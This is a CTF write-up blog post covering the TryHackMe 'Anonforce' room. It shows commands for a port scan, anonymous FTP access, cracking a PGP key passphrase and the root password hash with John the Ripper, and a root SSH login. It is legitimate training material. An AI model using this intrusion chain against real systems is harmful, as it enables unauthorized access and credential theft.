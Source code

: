 ```yaml
---
layout: post
title: "THM - Anonforce"
date: 2022-02-04
categories: [Tryhackme, Linux]
tags: [security]
image: ../../assets/img/posts/Anonforce/anonforce.png 

---
```


## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

|**Room**|Agent Sudo|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Room Link**| https://tryhackme.com/room/bsidesgtanonforce |
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a $IP
```

![rustscan](../../assets/img/posts/Anonforce/rustscan.png)
we get 2 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22 $IP -oN nmap.txt
```

![nmap1](../../assets/img/posts/Anonforce/nmap1.png)
![nmap2](../../assets/img/posts/Anonforce/nmap2.png)
Result scan reveals that port 21 is running vsftpd with anonymous login and port 22 is running ssh service. Enumerate port 21.

Lets connect to ftp service,

```bash
ftp $IP
```

![ftp1](../../assets/img/posts/Anonforce/ftp1.png)
we got in.

Establishing directory content,

![ftp2](../../assets/img/posts/Anonforce/ftp2.png)

navigating to home directory and list directory content,

![ftp3](../../assets/img/posts/Anonforce/ftp3.png)

we got melodias user.

navigating to user directory and list directory content,

![ftp4](../../assets/img/posts/Anonforce/ftp4.png)

we got our user flag. But since we cannot read it, we can take this user.txt file on our system using `get`,

```bash
get user.txt
```

![ftp5](../../assets/img/posts/Anonforce/ftp5.png)

Now, there is also a **notread** directory in system directory as well, so taking a look inside directory reveals that there are 2 files backup.pgp file and private.asc,

![ftp6](../../assets/img/posts/Anonforce/ftp6.png)

We can get these files on our system,

```bash
get backup.pgp
get private.asc
```

We can convert this key into crack-able hash,

```bash
gpg2john private.asc > crackmejohn
```

Now using JTR, we can crack the hash,

```bash
john crackmejohn --wordlist=/usr/share/wordlists/rockyou.txt
```

![john](../../assets/img/posts/Anonforce/john.png)

we got our password, `*******`.

Now, we can import this private key so that we can decrypt the backup key,

```bash
gpg --import private.asc
```

![gpg](../../assets/img/posts/Anonforce/gpg.png)

Now, we can decrypt the backup.pgp file using the password we got,

```bash
gpg --output backup --decrypt backup.pgp
```

![gpg2](../../assets/img/posts/Anonforce/gpg2.png)

Reading the content of backup we just decrypted,

![hashes](../../assets/img/posts/Anonforce/hashes.png)

We got the password hash of root user.

Let's put this hash in a file,

```bash
echo "<hash-string>" > root_hash
```

Now, using JTR to crack this hash,

```bash
john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john2](../../assets/img/posts/Anonforce/john2.png)

We can get into machine via ssh,

```bash
ssh root@$IP
```

![ssh](../../assets/img/posts/Anonforce/ssh.png)

we get in as root user.
